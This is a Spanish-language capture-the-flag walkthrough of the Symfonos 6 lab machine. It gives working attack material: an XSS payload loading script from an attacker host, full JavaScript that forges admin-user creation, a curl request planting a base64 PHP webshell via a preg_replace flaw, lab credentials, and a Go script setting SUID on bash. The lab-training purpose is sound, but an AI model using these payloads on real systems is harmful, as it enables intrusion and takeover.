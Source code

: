 # Symfonos 6

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: Web Enumeration /
FlySpray Exploitation /
Abusing FlySpray / Cross Site Scripting (XSS) /
Getting the administrator to create a new privileged user through XSS /
Information Leakage /
Gitlab Enumeration /
Abusing API + Preg_Replace to achieve RCE on the creation of a new post /
Abusing sudoers privilege (go) [Privilege Escalation] 

Te prepara para las **Certificaciones**: eWPT /
eWPTXv2 /
OSWE /
eCPPTv2 /
eCPTXv2 

![image](https://github.com/user-attachments/assets/209dae1a-8407-4cc4-95c4-9a5e899058e6)

# Reconocimiento

Aplicamos un barrido en la red local utilizando `arp-scan` para encontrar la IP de la maquina victima:
![image](https://github.com/user-attachments/assets/4f811da8-2144-4421-aa50-31cd3733c28e)
- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.



Utilizando `nmap` vemos los puertos abiertos.



![image](https://github.com/user-attachments/assets/dbcc4648-08ff-4126-8cda-afcb1d2dea2c)
- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.



![image](https://github.com/user-attachments/assets/58c43f4f-d792-4f2b-9605-a7e27c5318b0)
- `OpenSSH 7.4` -> Versión SSH desactualizada
- `PHP 5.6.40` -> Versión PHP desactualizada

Utilizando `gobuster` encontramos la carpeta **flyspray**
![image](https://github.com/user-attachments/assets/d3f4cb9e-e7a8-471c-ba33-279954cb5678)
- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe
- `--add-slash` -> Que coloque una barra al final
- `grep -v "500"` ->  No quiero ver código de estado 500

Simplemente nos registramos
![image](https://github.com/user-attachments/assets/a1b0ed98-681a-4e35-975e-a41f31258032)

---

# CSRF

Utilizaremos este **exploit** para explotarlo:

https://www.exploit-db.com/exploits/41918 

En el campo "Real Name" colocaremos ` "><script src=http://IPATACANTE/pwned.js></script>  `
![image](https://github.com/user-attachments/assets/a2c821bb-02e3-4cfc-9ae8-a8f8eaf01632)



Creamos el archivo `pwned.js`, el cual creara un usuario "hacker" y de contraseña "12345678" con privilegios **root**.

```
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Abrimos con Python el puerto 80, donde se encuentra nuestro `pwned.js`.
![image](https://github.com/user-attachments/assets/d9fb5817-56f7-4177-91c9-bb655895b98e)

Ponemos un comentario
![image](https://github.com/user-attachments/assets/2f28b883-fbdb-4f20-837a-029608be1659)



Usuario: achilles,
Contraseña: h2sBr9gryBunKdF9


![image](https://github.com/user-attachments/assets/b96c42ea-07e4-43a0-9c64-8a78a4265ea6)

Nos autenticamos como **achilles** en http://symfonos.local:3000 
![image](https://github.com/user-attachments/assets/4110883e-2d2d-4e41-95d6-5d8daa7710b0)

-----


# Explotación de api

Una vez adentro  en los repositorios de achilles, investigando vamos a ver:

Preg_replace



![image](https://github.com/user-attachments/assets/0c2556e6-e1c1-43ea-89ad-3f57331d0daf)
- ` /.*/e ` -> Una expresion regular con **Modificador e** -> vulnerable (le podes meter código php)
- `$content` -> contenido
- `"WIN"` -> una palabra

-----

### Investigando mas vamos armar esta URL api:

curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" 

Luego encontraremos que me pide un campo "username" y un campo "password".
![image](https://github.com/user-attachments/assets/335a9400-6486-436c-9680-594080a86d9c)


- ` curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" -H "Content-Type: application/json" -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}' `

- `-H` -> El Content Type para que me reconozca la data json
- `-d` -> Data en json que quiero mandar
- `username` -> campo username
- `password` -> campo password

Esto nos dará un json web token (pero no tenemos el secreto), asi que por ahora no nos sirve.
Vemos que el "id":1 -> Nos va a servir para explotar el preg_replace 
![image](https://github.com/user-attachments/assets/f5923926-b674-44f6-bc7c-9c8019f50b0c)


---

Vemos que indicando una petición por `PATCH`, y pasando el `id` (que es 1), podemos actualizar el post que esta en http://symfonos.local/posts/ 



![image](https://github.com/user-attachments/assets/c8da2743-dffe-4681-a9a6-f85f9b298fdb)

Al parecer necesitamos poner un campo "text"
![image](https://github.com/user-attachments/assets/d3b97eb3-18ab-4df5-9f8b-977a9304d1be)




Pongo en base64 este script php:



![image](https://github.com/user-attachments/assets/ee6ad1f0-b980-49c8-bc73-41822176ffc2)


- `  curl -s -X PATCH "http://symfonos.local:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjE0ODU3NDAsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.SPUuZ3ybrOID6ktLJNDysNiJK_t97wdwCp5w18puiqg" -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKIHN5c3RlbSgkX0dFVFsnY21kJ10pOwo/Pgo=\'))"}'   `


- `file_put_contents` -> Crear un archivo y ponerle lo que quieras.

- `base64_decode` -> decodificar el  script php en base64 que hicimos

Query para ganar acceso a la maquina:
![image](https://github.com/user-attachments/assets/593c465a-c4ba-41ce-8f50-8787b5fe0dc8)
![image](https://github.com/user-attachments/assets/54833dc5-a1fa-4111-8dff-15866f1daf30)

-------

# Escalada de privilegios

Nos conectamos como achilles



![image](https://github.com/user-attachments/assets/2ff56b4e-e61e-4a46-b6a4-f269a9171b45)


Con `sudo -l` vemos que podemos ejecutar el binario `go` como root.
![image](https://github.com/user-attachments/assets/6dda3791-38b1-4c56-b0c1-734ff06084d5)


Script de `go` , para ponerle SUID a la bash

https://zetcode.com/golang/exec-command/

```go
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

Ejecutamos con `sudo /usr/local/go/bin/go run go.go` 



![image](https://github.com/user-attachments/assets/634f37ef-7dbe-4d95-b62e-0db8308fd913)

- `go.go ` -> Nombre de mi script
- `run` -> para que inicie mi script

Flag Final:



![image](https://github.com/user-attachments/assets/f0572425-da98-4098-bc91-e878ca7193ea)
